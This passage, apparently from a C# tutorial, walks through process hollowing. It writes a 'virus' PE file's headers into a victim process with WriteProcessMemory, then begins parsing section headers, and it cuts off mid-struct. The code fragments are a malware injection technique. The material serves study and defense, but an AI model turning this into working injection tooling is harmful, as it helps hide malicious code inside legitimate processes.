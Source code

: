 The number of bytes to be written to the specified process.

We need to get the size of the headers from the PE file. It is at an offset `0x54` from the start of the PE Header.

```cs
uint sizeOfVirusHeaders = (uint)Marshal.ReadInt32(virusFilePointer, virusElfanew + 0x54);
```


### lpNumberOfBytesWritten

For simplicity, I will be ignoring this field by using `C#'s` discard variable, `_`.

## Code Example

```cs
 uint sizeOfVirusHeaders = (uint)Marshal.ReadInt32(virusFilePointer, virusElfanew + 0x54);
 if (!PInvoke.WriteProcessMemory(victimProcessHandle, allocatedNewRegionForVirus, virusFilePointer, sizeOfVirusHeaders, out _))
 {
     Console.WriteLine("Writing headers failed...");
     return;
 };
```

# Writing the Sections

In order to locate and write the sections, we need 3 important information. The `NumberOfSections`, `SizeOfOptionalHeaders` and the `SizeOfImageSectionHeader`.


![image](https://user-images.githubusercontent.com/12537739/123084407-a7f29880-d453-11eb-94ee-bcc60de47843.png)


From the image above, we can obtain the `NumberOfSections` and `SizeOfOptionalHeaders` by

```cs
int numberOfSections = Marshal.ReadInt16(virusFilePointer, virusElfanew + 0x6);
int sizeOfOptionalHeader = Marshal.ReadInt16(virusFilePointer + virusElfanew + 0x10 + 0x04);
```

Then I got the `IMAGE_SECTION_HEADER` definition from [PINVOKE.NET](http://pinvoke.net/default.aspx/Structures/IMAGE_SECTION_HEADER.html).

```cs
[StructLayout(LayoutKind.Explicit)]
public struct IMAGE_SECTION_HEADER
{
    [FieldOffset(0)]
    [MarshalAs(UnmanagedType.ByValArray, SizeConst = 8)]
    public char[] Name;

    [FieldOffset(8)]
    public UInt32 VirtualSize;

    [FieldOffset(12)]
    public UInt32 VirtualAddress;

    [FieldOffset(16)]
    public UInt32 SizeOfRawData;

    [FieldOffset(20)]
    public UInt32 PointerToRawData;

    [FieldOffset(24)]
    public UInt32 PointerToRelocations;

```